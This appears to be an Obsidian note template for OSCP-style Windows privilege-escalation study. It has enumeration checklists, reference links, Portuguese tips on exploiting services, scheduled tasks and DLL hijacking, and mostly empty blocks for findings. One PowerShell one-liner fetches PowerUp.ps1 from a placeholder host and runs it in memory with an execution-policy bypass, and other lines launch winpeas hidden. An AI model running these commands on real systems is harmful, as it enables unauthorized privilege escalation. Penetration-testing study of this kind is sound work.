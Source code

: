 ```yaml
---
icon: 🗒
target:
- ""
createdAt: "{{DATE}}"
imageNameKey: nota_<% tp.file.title.split(" ").join("_").toLowerCase() %>
tags: 
NoteRel:
---
```

## Local Machine enumeration Checklist
- [ ] Username, hostname and privileges
- [ ] Groups Memberships of the current user
- [ ] Existing users and groups
- [ ] Operating System, version, arch and security updates
- [ ] Network information
- [ ] installed Applications x64 and x86
- [ ] Running Process
- [ ] Sensitive File Search
- [ ] PowerShell History and Transcript
- [ ] Powershell Env Variables
- [ ] Schedule tasks
- [ ] Services Running

## Privesc Checklist
- [ ] Installed softwares vulnerabilities
- [ ] Schedule Tasks
- [ ] Services Running
- [ ] WinPeas
- [ ] Bloodhound
- [ ] DLL Hijacking
- [ ] winlogon
- [ ] putty

## References
[Windows Privilege Escalation - Situation Awareness](obsidian://open?vault=OSCP-Study-Notes&file=Windows%20Privilege%20Escalation%2FSituational%20Awareness)
https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#windows-version-and-configuration

## Initial executes - Tools Automated

### Winpeas
> cmd
```cmd
wmic process call create "cmd.exe /c C:\temp\winpeas.exe > C:\temp\winpeas.txt"
```

>powershell
```powershell
Start-Process -FilePath "C:\temp\winpeas.exe" -ArgumentList " > C:\temp\output.txt" -WindowStyle Hidden -NoNewWindow
```

### Powerup
```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/wintools/PowerUp.ps1'); Invoke-AllChecks"
```

# Enumeration for (USERNAME)
## hostname and username
```js


```

## User Privileges
```


```

## Group memberships
```js



```

## Sensitive Files By User and Group
```

```

```

```

## Powershell History and Transcript
```js


```

## Powershell Env Variables
```js


```

## Find-LocalAdmins
```

```

## Services Running
- Procura serviços que utilizam executaveis cujo temos permissões de acesso
- Procurar por serviços que estão em diretórios cujo temos permissões de acesso.
- utilizar PowerUp.ps1 para automatizar processo e fazer método manual.
```

```

## Schedule Tasks
- Procurar por tasks cujo o PathName tenha espaço e não tenha aspas
- Procurar por tasks cujo o binário temos permissões de acesso
- Procurar por tasks cujo o binário está num diretório que temos permissão
- Usar powerup.ps1 para automatizar
```

```



# System Enumeration 
## Existing Users and Groups

### Users
```js





```

### Groups
```js


```

## System SO, info, version, arch
```js



```

## Security Patches installed
```js


```

## Network Information
```js


```

```js

```
## Installed Applications
#### Apps x86
```js

```
#### Apps x64
```js
   

```

## Running Process
```js

```

## DLL Hijacking
- Se for possível, baixar o executavel do software e procurar localmente por DLLs vulneraveis.
- Procurar por arquivos de logs de software
- Procurar nome do software na internet e identificar DLLs hijacking conhecidas

```

```
